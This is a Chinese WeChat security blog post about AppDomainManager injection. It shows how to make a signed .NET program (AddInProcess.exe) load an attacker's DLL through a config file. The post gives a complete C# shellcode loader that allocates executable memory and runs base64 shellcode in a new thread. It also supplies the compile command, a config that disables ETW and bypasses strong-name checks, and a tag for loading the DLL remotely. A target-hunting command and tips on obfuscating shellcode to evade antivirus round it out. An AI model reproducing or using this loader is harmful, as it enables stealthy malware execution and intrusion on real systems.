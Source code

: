 #  白程序？360？ApplicationDomain注入？

原创 relaysec  [ Relay学安全 ](javascript:void\(0\);)

**Relay学安全** ![]()

微信号 gh_8d57319ec39c

功能介绍
这是一个纯分享技术的公众号，只想做安全圈的一股清流，不会发任何广告，不会接受任何广告，只会分享纯技术文章，欢迎各行各业的小伙伴关注。让我们一起提升技术。

____

___发表于_

#### 简介

每个 .NET 二进制文件都包含以安全方式加载程序集的应用程序域。AppDomainManager 对象可用于在 .NET 进程内创建新的
ApplicationDomain。

那么我们就可以自定义ApplicationDomain并注入到.Net二进制文件中来运行我们的恶意代码，那么如果这个.Net二进制文件他是有签名的，那么我们在不需要破坏它的签名的情况下，直接将我们的恶意DLL注入进去即可。

那么这个DLL我们如何来编写呢？

#### 编写恶意DLL

需要注意的是我们所有的代码都需要写在InitializeNewDomain函数中。

如下模板:

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    using System;using System.EnterpriseServices;using System.Runtime.InteropServices; public sealed class MyAppDomainManager : AppDomainManager{       public override void InitializeNewDomain(AppDomainSetup appDomainInfo)    {           System.Windows.Forms.MessageBox.Show("Hello relaysec");        //执行RelaySec类中的Execute方法,Execute方法是一个静态方法 所以是可以直接调用的。        bool res = RelaySec.Execute();                 return;    }} public class RelaySec {                    [DllImport("kernel32")]    private static extern IntPtr VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);                   [DllImport("kernel32")]    private static extern IntPtr CreateThread(                UInt32 lpThreadAttributes,    UInt32 dwStackSize,    IntPtr lpStartAddress,    IntPtr param,    UInt32 dwCreationFlags,    ref UInt32 lpThreadId           );    [DllImport("kernel32")]    private static extern UInt32 WaitForSingleObject(               IntPtr hHandle,    UInt32 dwMilliseconds);              public static bool Execute()    {          //这里的payload需要base64编码 所以建议是sgn编码之后放到这里即可。      byte[] installercode = System.Convert.FromBase64String("这里编写你的payload");      //申请内存      IntPtr funcAddr = VirtualAlloc(0, (UInt32)installercode.Length, 0x1000, 0x40);      //将shellcode 复制到内存中      Marshal.Copy(installercode, 0, (IntPtr)(funcAddr), installercode.Length);      IntPtr hThread = IntPtr.Zero;      UInt32 threadId = 0;      IntPtr pinfo = IntPtr.Zero;      //创建线程去执行 其实这里也可以使用回调函数去执行      hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);      WaitForSingleObject(hThread, 0xFFFFFFFF);      return true;    } }

这里我们需要使用.Net4.0文件夹中的csc.exe将.Net程序编译为DLL文件。

  * 

    
    
    csc.exe /target:library /out:relaysec.dll C:\Users\Admin\Desktop\relay.cs

![]()

然后会在.Net目录中生成一个relaysec.dll文件，我们将这个文件拿出来。

定义一个配置文件，名为AddInProcess.exe.config，最后将.Net程序放到同一个目录，即可。

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    <configuration>   <runtime>      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">         <probing privatePath="."/>      </assemblyBinding>       <appDomainManagerAssembly value="relaysec, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null" />        <appDomainManagerType value="MyAppDomainManager" />       <etwEnable enabled="false"/>      <bypassTrustedAppStrongNames enabled="true"/>   </runtime></configuration>

![]()

![]()

然后当我们双击AddInProcess.exe的时候，会看到弹出了Hello Relaysec。

![]()

那么我们是不是也就可以直接执行shellcode了，这里将shellcode编码为base64。

  * 

    
    
    base64 dotnet.bin > dot.txt

![]()

可以看到成功上线。

![]()

并且这个dotnet程序是有签名的且是有效的。

![]()

那么我们在想这样的话我们就得往目标去上线3个文件，这样的话很麻烦，我们有没有什么其他办法只需要两个文件即可，如下。

#### 远程加载DLL

我们可以使用如下标签来远程加载: 但是是不建议的，因为这样的话就暴露了你的服务器。当然你也可以将它挂载在云上，或者公共下载的地方。

  * 

    
    
    <codeBase version="0.0.0.0" href="\\127.0.0.1:8080\relaysec.dll" />

#### 如何去挖掘DotNet

使用如下工具:

  * 

    
    
    https://github.com/0xthirteen/AssemblyHunter

使用如下命令:

  * 

    
    
    AssemblyHunter.exe path="c:\Program Files" recurse=true noreqpriv=true exeonly=true signed=true quiet=true getasmid=true getuac=true getappid=true

![]()

![]()

需要注意的是shellcode是需要混淆处理的。

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# 白程序？360？ApplicationDomain注入？

原创 relaysec  [ Relay学安全 ](javascript:void\(0\);)

轻触阅读原文

![]()

Relay学安全

赞 分享 在看

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言


